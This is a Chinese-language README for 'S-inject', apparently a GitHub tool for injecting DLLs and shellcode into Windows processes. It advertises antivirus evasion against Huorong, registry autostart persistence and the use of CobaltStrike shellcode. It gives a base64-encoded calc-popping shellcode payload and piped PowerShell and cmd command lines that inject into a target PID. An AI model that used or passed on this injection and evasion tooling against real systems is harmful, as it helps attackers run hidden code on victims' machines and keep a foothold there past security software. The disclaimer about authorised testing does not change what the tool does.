

  

# S-inject

DLL+Shellcode的Windows注入免杀工具


只是罗列各种方法，免杀搭配其他技巧中要具体灵活使用

**须知：**

1. 反射式注入参考了著名github项目：https://github.com/stephenfewer/ReflectiveDLLInjection
   该项目为反射式注入支持的DLL
2. Shellcode使用base64编码后的shellcode
3. 相关测试的DLL文件在`Test Files`文件夹中

**免责声明：** 本工具仅供教育和授权测试目的使用。开发者及贡献者不支持、不鼓励也不赞成任何非法或未经授权的使用。 用户有责任确保其使用本工具的行为符合所有适用的法律法规。严禁将本工具用于任何未经授权的活动。 开发者及贡献者对使用本工具造成的任何损害或后果不承担责任。使用前请自行承担风险。 通过使用本工具，您同意这些条款，并对您的行为承担全部责任。

# 免杀效果

远程shellcode注入等功能可免杀火绒，VNC无感，可注册表添加开机自启动


# 支持功能


**DLL注入**

- 远程线程注入
- 反射式注入
- APC调度注入

**Shellcode注入**

- 远程线程注入
- APC调度注入
- Context上下文注入
- **可注入进程枚举**

# 使用

非交互式终端使用管道传参

- 注意cmd和powershell的区别

- 注意cmd字符串超过80个会自动换行，推荐搭配powershell

## Shellcode注入

这里以64为windows10版本Calc shellcode位例子(虽然会崩溃)
shellcode来源：https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode
base64编码后shellcode

```c
SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==
```


以CobaltStrike Shellcode为例子


### 关于使用不可交互终端

可以参考 DLL注入：B, 不可交互终端 部分，尝试利用管道加载

```powershell
#cmd
(echo <option> <base64 Shellcode>) | <S-inject Path>

#powershell
echo "<option index>`n`<pid>`n`<base64 Shellcode>" | <S-inject Path>

#(echo 4`n`16900`n`SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==) |  D:\Github\S-inject\x64\Release\S-inject.exe
```


## DLL注入

### A, 可交互终端

直接在终端中启动，根据菜单选择功能即可，如枚举可注入进程



### B, 不可交互终端

因为作者不想增加代码量，单独增添没有必要的参数功能，可以利用管道解决该问题
以下示例使用的注入对象更新前的为`x32dbg`和`x64dbg`，因为一个软件有两个位数的版本，在`x96dbg`中可以选择位数，便于测试

**如远程线程DLL注入**

x64

- powershell

  ```powershell
  echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  

- cmd

  推荐使用powershell启动

  ```powershell
  powershell -c echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #powershell -c echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  

  cmd.exe

  ```
  (echo <option> <DLL Path> &echo <PID>) | <S-inject Path>
  
  #(echo 1 D:\Github\S-inject\Test Files\TestDll_x64.dll &echo 22268) | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  


